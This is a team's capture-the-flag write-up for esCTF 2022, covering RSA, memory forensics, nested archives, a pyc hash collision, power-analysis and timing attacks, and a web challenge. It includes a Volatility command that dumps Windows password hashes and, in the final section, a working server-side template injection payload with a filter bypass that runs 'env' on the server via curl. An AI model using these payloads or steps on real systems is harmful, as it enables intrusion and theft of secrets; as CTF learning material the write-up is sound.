

= esCTF Writeup SOUL
:toc: left
:icons: font
:icon-set: fab
:source-highlighter: rouge
:nofooter:

== Team Members

=== Anirudh Samudrala
- icon:github[] https://github.com/ANIS1502
- icon:linkedin[] https://www.linkedin.com/in/ani-sam

=== Jaden Furtado
- icon:github[] https://github.com/JadenFurtado
- icon:linkedin[] https://www.linkedin.com/in/jaden-furtado

=== Jay Kaku
- icon:github[] https://github.com/JayKaku
- icon:linkedin[] https://www.linkedin.com/in/jay-kaku-a33382191

=== Kartik Soneji
- icon:gitlab[] https://gitlab.com/KartikSoneji
- icon:github[] https://github.com/KartikSoneji
- icon:linkedin[] https://www.linkedin.com/in/kartiksoneji

Git Repo: https://github.com/JayKaku/esCTF-round2-2022

<<<
== "Basic" RSA

Using RsaCtfTool.

```console
> python3 RsaCtfTool.py \
	-n 36550632782390737112290482242567190734257662690859828897626318413596982720981420340961357690743407328107094441571809732595176668167717854469982222814801957713709981753693671336523807731635125296959862667963222426110248351646457765436553016064317886597605351895189964006885295553637918942652842187130798992128439326604329559510851528754643207710783484916664428531789389083768228905667753430763392088853755517989758167001490622981896280992891317134520861367922879721285590658664462326539893489537606338480203423534061958341347809849674418432611162359835498166818391 \
	-e 65537 \
	--uncipher 11951844430313350596887352720043817555782988482097064184378574092073786945450236640454431623869329081342976356548503607751614848919244761996736903666036820224738496997920592631181955328988983846008884726954593860025524830824167378481048706338099028229143106177050249661336120981635270196157366474125194164603916577088045804829615155654692388279430386606428741581723469294432510708551477492840617549410750553996605228632398445658090386565509967670599913921070260164863718658199616713502169441813303948073058123183219196315138975035337341637587051686750531325256560
```


<<<
== Neo's Forensics Training

Neos’s Forensics Training
Step 1:
We received a zip file, which when we extracted the contents of revealed a 2Gb dump file of the system.


Since the flag was bound to be somewhere in the system logs/files/secrets, I decided to do a string analysis of the file. I ran the command 
```console
strings bank_atm_dump > dump.txt

```
However, this returned a huge file, which caused nano and vim to crash. 


Also, running 
```console
Cat dump.txt | grep esCTF{

```


However, after taking a look at previous challenges, this did not surprise me as the flag was bound to be encoded.
Step 2:
Since the initial string analysis failed, I decided to try and analyze the dump file using some nano. A few lines into dump.txt and I deduced that the machine from which the dump file originated was a windows machine


On doing some research (I had never analyzed a dump file like this before, and neither had anyone in the team), I came across Volitility. I had heard about this tool on DarknetDiaries, but never bothered exploring it. After setting it up, I ran a few commands and saw how to use it. 


During the initial analysis phase, I saw that the OS was windows, however, interestingly, I saw that the device also ran a VM for some purpose, probably to isolate the banking application from the host OS. This meant that I had a few places where the flag could be hidden
The hash of the passwords of system users
Environment variables
System variables
Cache data
File names
Somewhere in the configuration of the VM

From my experience I know that windows is notoriously poor when it comes to storing passwords (#mimikatz) and so, I decided to try and see if I could try and dump the hashes of the users. If I decrypt them, I might get the flag and so, that is what I did!


I ran the command

```console
└──╼ $python3 vol.py -v -f /home/jaden/Desktop/ctf/bank_atm_dump windows.hashdump.Hashdump

```


As shown above, it returned hashes of users, which were hashed using the lmhash and lthash. Kartik suggested running an online cracker against them, which should be able to crack them. However, they did not return anything interesting. 
The next thing I decided to look at the process tree 

```console
└──╼ $sudo python3 vol.py -v -f /home/jaden/Desktop/ctf/bank_atm_dump windows.cmdline.CmdLine

```
and this is what I got:


The last few were interesting to me. Why? Because it showed a few open terminals and a notepad. Most sysadmins use Notepad to store passwords, so let’s see what we can get from the CLI history.


And yes! Sure enough, on the last line, we see a string that looks like a base64 encoded string. 
On decoding it, this is what I got


```text
The flag was: flag:esCTF{7h!s_w@s_h!dd3n_!n_7h3_@tm}
```


<<<
== Pandora's Box

We recieved a compressed file. On analyzing the file, we noticed that on uncompressing it, we found that it contained another compressed files...
Interestingly, after uncompressing the next file, we found that contained one more compressed file! Well the problem name certainly makes sense.
It is Pandora's Box of nested files :P
Well, the only way out of the problem was to script through it(We are extremly lazy and hate manual labour :).
However, once we reached the final zip file, our code threw an error as it was password protected.
And that's when we hit a dead end regarding how to extract the flag.
On reading the question again, one of our team members pointed out that it was mentioned in the question to remeber the path.
So, we modified our code to concacenate the name's of each nested file and the result was a Base64 encoded string.
On using this string as the password, we were able to unzip the last file and retrieve the flag! 

Code is given below

=== Code
```python
include::pandora.py[]
```

=== Output
```console
> py pandora.py

TW9zdCBvZiB1cyB0ZW5kIHRvIHRyeSBhbmQgYXZvaWQgbWlzdGFrZXMgYW5kIHZpZXcgdGhlbSBhcyBuZTlhdGl2ZSByYXRoZXIgdGhhbiBpbXBvcnRhbnQuCkJ1dCBtMXN0YWtlcyBjYW4gdGVhY2ggdXMgYW5kIGgzbHAgdXMgaW1wcm92ZS4gVW5kZXJzdGFuZGluZyB0aGUgaW1wMHJ0YW5jZSBvZiBtaXN0YWtlcyBhbmQKaG93IHRvIHVzZSB0aGVtIHRvIDB1ciBiZXN0IGFkdmFudGFnZSBpcyB3aGF0IHNlcGFyYTdlcyBvdXQgdGhlIGdyOCBsZWFkZXJzIGZyb20gdGhlIHJlc3QKb2YgdGhlIGNyMHdkLiBUaGVyZSBpcyBhIHNraWxsIHRvIGhhbmRsaW5nIG1pc3Rha2VzIGFuZCB1bmRlcnN0YW5kaW5nIGhvdyB0byB0dXJuIHRoZW0gaW50MCAKb3Bwb3J0dW5pN2llcy5XZSBtdTV0IGxlYXJuIHQwIGVtYnJhY2Ugb3VyIG1pc3Rha2U1IGFuZCBzZWUgdGhlbSBmb3IgdGhlIGxlc3MwbnMgdGhleSBvZmZlcgphbmQgdGhlIG9wcG9ydHVuMXRpZXMgdGhleSBwcm92aWRlLiBUaGlzIGlzIHRoZSBhcHByb2FjaCB0aGF0IHdpbGwgY2F0YXB1bHQgb3VyIGxlYWRlcnNoaXAgCnRvIHN1Y2Nlc3MuIEFuIGV4cGVyMW1lbnRhbCBhcHByb2FjaCB0byBsaWZlIGFuZCBsZWFybmluOSBtdXN0IGluY2x1ZGUgdXNpbmcgbWlzdGFrZXMgdG8gb3VyIAphZHZhbnRhOWUuIEJ5IHN0YXlpbmcgZjBjdXNlZCBvbiB0aGUgNmlnIHBpY3R1cmUgb2Ygb3VyIGxpZmUgYW5kIHdlcmUgdzMgYXJlIGhlYWRlZCwgd2UgY2FuIApsZWFybiB0byB0YWtlIG1pc3Rha2VzIGluIHN0cmlkZSA0cyBwYXJ0IG9mIG91ciBwZXJzMG5hbCBsZWFkZXJzaGlwIGRldmVsb3BtZW43LiAg

Most of us tend to try and avoid mistakes and view them as ne9ative rather than important.
But m1stakes can teach us and h3lp us improve. Understanding the imp0rtance of mistakes and
how to use them to 0ur best advantage is what separa7es out the gr8 leaders from the rest
of the cr0wd. There is a skill to handling mistakes and understanding how to turn them int0
opportuni7ies.We mu5t learn t0 embrace our mistake5 and see them for the less0ns they offer
and the opportun1ties they provide. This is the approach that will catapult our leadership
to success. An exper1mental approach to life and learnin9 must include using mistakes to our
advanta9e. By staying f0cused on the 6ig picture of our life and were w3 are headed, we can
learn to take mistakes in stride 4s part of our pers0nal leadership developmen7.

esTCF{Freed0m_1s_n0t_w0r7h_h4v1n9_1f_1t_d03s_n0t_1nclud3_th3_fr33d0m_t0_m4k3_m15t4k35}
```


<<<
== Magically protected

[%hardbreaks]
The given file was a bash script, which contained a python 3.7 byte-compiled program.

.locker
```bash
#! /bin/bash
binary="Qg0NCgAAAABC6XFjGgQAAOMAAAAAAAAAAAAAAAADAAAAQAAAAHNiAAAAZABkAWwAWgBkAmQDhABa\nAWQEZAWEAFoCZQNkBoMBAQBlBIMAWgVkB1oGZQVkB2sCcjxlA2QIgwEBAG4iZQJlBYMBZQJlBoMB\nawJyVmUDZAmDAQEAbghlA2QKgwEBAGQBUwApC+kAAAAATmMBAAAAAAAAAAIAAAAfAAAAQwAAAHNO\nAAAAZAFkAmQDZARkBWQGZAdkCGQJZApkC2QMZA1kDmQPZBBkEWQSZBNkFGQVZBZkF2QYZBlkGmQb\nZBxkHWQeZB+cHn0BfAGgAHwAZCChAlMAKSFO6QEAAADpAgAAAOkDAAAA6QQAAADpBQAAAOkGAAAA\n6QcAAADpCAAAAOkJAAAA6QoAAADpCwAAAOkMAAAA6Q0AAADpDgAAAOkPAAAA6RAAAADpEQAAAOkS\nAAAA6RMAAADpFAAAAOkVAAAA6RYAAADpFwAAAOkYAAAA6RkAAADpGgAAAOkbAAAA6RwAAADpHQAA\nAOkeAAAAKR7aAWHaAWLaAWPaAWTaAWXaAWbaAWfaAWjaAWnaAWraAWvaAWzaAW3aAW7aAW/aAXDa\nAXHaAXLaAXPaAXTaAXXaAXbaAXfaAXjaAXnaAXr6AXv6AX3aAV/6ASFyAQAAACkB2gNnZXQpAtoE\nY2hhcloGc3dpdGNoqQByQAAAAPoHaGFzaC5wedoMc3Vic3RpdHV0aW9uAwAAAHM+AAAAAAICAQIB\nAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBCAJy\nQgAAAGMBAAAAAAAAAAMAAAAHAAAAQwAAAHM+AAAAZAF9AXg0dAB0AXwAgwGDAUQAXSR9AnwBfAFk\nAhQAZAN0AnwAfAIZAIMBEwBkBBYAFwA3AH0BcRJXAHwBUwApBU5yAgAAAHIKAAAAcgMAAADpHwAA\nACkD2gVyYW5nZdoDbGVuckIAAAApA1oFcGFzc3faBGhhc2hyKAAAAHJAAAAAckAAAAByQQAAANoF\naGFzaF8mAAAAcwgAAAAAAQQBEgEkAXJHAAAAehRFbnRlciB0aGUgcGFzc2NvZGUgOnoKYWxvaGFt\nb3JhIXoXU3BlbGxzIGFyZSBub3QgYWxsb3dlZC56MldlbGNvbWUgdG8gSG9nd2FyZHMsIHRoZSBm\nbGFnIGlzIGVzQ1RGe2R1bW15X2ZsYWd9WgxVbkF1dGhvcml6ZWQpB9oDc3lzckIAAAByRwAAANoF\ncHJpbnTaBWlucHV0WghwYXNzd29yZFoIcGFzc2NvZGVyQAAAAHJAAAAAckAAAAByQQAAANoIPG1v\nZHVsZT4CAAAAcxQAAAAIAQgjCAYIAQYBBAEIAQoBEAEKAg=="
echo -e $binary | base64 -d > binary
python3.7 binary

rm binary
```

Decoding the base64

```console
printf "Qg0NCgAAAABC6XFjGgQAAOMAAAAAAAAAAAAAAAADAAAAQAAAAHNiAAAAZABkAWwAWgBkAmQDhABa\nAWQEZAWEAFoCZQNkBoMBAQBlBIMAWgVkB1oGZQVkB2sCcjxlA2QIgwEBAG4iZQJlBYMBZQJlBoMB\nawJyVmUDZAmDAQEAbghlA2QKgwEBAGQBUwApC+kAAAAATmMBAAAAAAAAAAIAAAAfAAAAQwAAAHNO\nAAAAZAFkAmQDZARkBWQGZAdkCGQJZApkC2QMZA1kDmQPZBBkEWQSZBNkFGQVZBZkF2QYZBlkGmQb\nZBxkHWQeZB+cHn0BfAGgAHwAZCChAlMAKSFO6QEAAADpAgAAAOkDAAAA6QQAAADpBQAAAOkGAAAA\n6QcAAADpCAAAAOkJAAAA6QoAAADpCwAAAOkMAAAA6Q0AAADpDgAAAOkPAAAA6RAAAADpEQAAAOkS\nAAAA6RMAAADpFAAAAOkVAAAA6RYAAADpFwAAAOkYAAAA6RkAAADpGgAAAOkbAAAA6RwAAADpHQAA\nAOkeAAAAKR7aAWHaAWLaAWPaAWTaAWXaAWbaAWfaAWjaAWnaAWraAWvaAWzaAW3aAW7aAW/aAXDa\nAXHaAXLaAXPaAXTaAXXaAXbaAXfaAXjaAXnaAXr6AXv6AX3aAV/6ASFyAQAAACkB2gNnZXQpAtoE\nY2hhcloGc3dpdGNoqQByQAAAAPoHaGFzaC5wedoMc3Vic3RpdHV0aW9uAwAAAHM+AAAAAAICAQIB\nAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBAgECAQIBCAJy\nQgAAAGMBAAAAAAAAAAMAAAAHAAAAQwAAAHM+AAAAZAF9AXg0dAB0AXwAgwGDAUQAXSR9AnwBfAFk\nAhQAZAN0AnwAfAIZAIMBEwBkBBYAFwA3AH0BcRJXAHwBUwApBU5yAgAAAHIKAAAAcgMAAADpHwAA\nACkD2gVyYW5nZdoDbGVuckIAAAApA1oFcGFzc3faBGhhc2hyKAAAAHJAAAAAckAAAAByQQAAANoF\naGFzaF8mAAAAcwgAAAAAAQQBEgEkAXJHAAAAehRFbnRlciB0aGUgcGFzc2NvZGUgOnoKYWxvaGFt\nb3JhIXoXU3BlbGxzIGFyZSBub3QgYWxsb3dlZC56MldlbGNvbWUgdG8gSG9nd2FyZHMsIHRoZSBm\nbGFnIGlzIGVzQ1RGe2R1bW15X2ZsYWd9WgxVbkF1dGhvcml6ZWQpB9oDc3lzckIAAAByRwAAANoF\ncHJpbnTaBWlucHV0WghwYXNzd29yZFoIcGFzc2NvZGVyQAAAAHJAAAAAckAAAAByQQAAANoIPG1v\nZHVsZT4CAAAAcxQAAAAIAQgjCAYIAQYBBAEIAQoBEAEKAg==" | base64 -d > binary.pyc
```

Upon decompiling it with `uncompyle6`, it showed a python script that was using a custom (insecure) hash function.

```console
> uncompyle6 binary.pyc > locker.py
```

.locker.py
```py
include::locker.py[]
```

[%hardbreaks]
The flag would be revealed if `hash(password) == hash("alohamora!")` but the script would abort if the password entered equals `alohamora!`.
Thus, the challenge was to find a hash collision.
This was simple enough to do by changing the last three characters of the password and iterating over all possibilities.

```py
CHARSET = "abcdefghijklmnopqrstuvwxyz{}_!"
def find_collision():
	for i in CHARSET:
		for j in CHARSET:
			for k in CHARSET:
				t = f"alohamo{i}{j}{k}"
				if hash_(t) == hash_(passcode) && t != passcode:
					return t

print(find_collision)
```

[%hardbreaks]
The collision found is `alohamocae`.
Submitting it gives the flag.


<<<
== (not so) Free Flag

(the file is called `free.txt` because gmail blocks javascript attachments)

=== Code
```js
include::free.txt[]
```

=== Output
```console
> node free.js

flag: esCTF{base64+encoding+is+the+way+to+decode}
```


== I have the Power


Initially, as it was Side Channel + “Power”, I came across an article https://www.rambus.com/blogs/side-channel-attacks/[here], that served as a starting point for understanding on what Simple Power Analysis (SPA) attack, Differential Power Analysis (DPA) attack was and how it was physically implemented on a chip, ASIC or FPGA, and the paper, https://link.springer.com/article/10.1007/s13389-011-0006-y[here], helped explain the concept along with Correlation Power Al and since we are online it helped us understand what data were we exactly looking at and what we could do with it i.e. the textin_array.npy, traces_array.npy and textout_array.npy.  

Since the challenge mentioned that it uses 128-bit AES encryption and the method that was the analysis of the value of power consumed by the chip  Electromagnetic (EM) attack. The next logical step was to find out how CPA attacks were done on AES128 which lead me to a video, https://youtu.be/5Hn2D5lrzVo[here], which explained about attacking AES with Power Analysis but no CPA and at the end of the video he dropped a resource to try it in real life, https://github.com/newaetech/chipwhisperer-jupyter/blob/master/courses/sca101/Lab%203_2%20-%20Recovering%20Data%20from%20a%20Single%20Bit.ipynb[here]. (Side Note: It would have been more helpful had they dropped that link in the description but anyway I took a screenshot of the screen and used online OCR to get almost 97% correct link).

The next obvious step was to look around that repo and find something more useful by reading a summary of the previous and learning outcomes of the current one. Quickly I found https://github.com/newaetech/chipwhisperer-jupyter/blob/master/courses/sca101/SOLN_Lab%204_2%20-%20CPA%20on%20Firmware%20Implementation%20of%20AES.ipynb[this] and knew we found what we were looking for (CPA code). I installed the ChipWhisperer tool and soon figured we had all we need. While I was thinking about what needs to be done with textout_array.npy. a teammate pointed out that we could just use it to confirm the AES-128 key that we were looking for.
(Side Note: Being a true software person at heart, his words were and I quote “Replace any two variables and run the script” period)


=== Code
```py
include::power.py[]
```

=== Output
```console
> python3 power.py

found bit 0
found bit 1
found bit 2
found bit 3
found bit 4
found bit 5
found bit 6
found bit 7
found bit 8
found bit 9
found bit 10
found bit 11
found bit 12
found bit 13
found bit 14
found bit 15

key: beccca0b9abc7c8e37d6b185d8b4bace
```

We then verified it using  textout_array.npy provided.




And there was our flag esCTF{beccca0b9abc7c8e37d6b185d8b4bace}

<<<
== KingPin 2.0

[%hardbreaks]
From the last round, I knew that KingPin was about a timing attack.
If the binary was calling sleep to delay the execution then there would be a system call somewhere.
Running the binary as `ltrace ./kingpin` confirmed this, as the number of calls to `usleep` changed depending on the pin.
This allowed the pin to be bruteforced digit-by-digit by counting the number of ``usleep``s in the output.

=== Code
```sh
include::kingpin.sh[]
```

=== Output
```
> ./kingpin.sh

8
80
804
8047
80471
804715
8047156
80471563
804715635
8047156357

pin is 8047156357
 ____  __.__              __________.__        
|    |/ _|__| ____    ____\______   \__| ____  
|      < |  |/    \  / ___\|     ___/  |/    \ 
|    |  \|  |   |  \/ /_/  >    |   |  |   |  \
|____|__ \__|___|  /\___  /|____|   |__|___|  /
        \/       \//_____/                  \/ 
                                               

KingPin, Enter your pin > 
Welcome KingPin!!!

Here is your flag: esCTF{8047156357}.
```


<<<
== Welcome to Cinque Terre

[%hardbreaks]
Analyzing the html on the page, it had a message that led to the `/echo` route.
Visiting the url (https://embeddedsecurityctf2022-hostme.chals.io/echo) returned the message `We we not host you here`.
Jaden suggested passing a fake host header of `localhost`, which worked and echo route returned a form where the `value` parameter was vunerable to Server Side Template Injection.
There was a blacklist of characters but that could be bypassed by using hex encoded characters and the `object|attr('value')` syntax

Final payload: `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('env')|attr('read')()}}`

```console
> curl \
	-g \
	-H "host: localhost" \
	"https://embeddedsecurityctf2022-hostme.chals.io/echo?value={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('env')|attr('read')()}}"
```
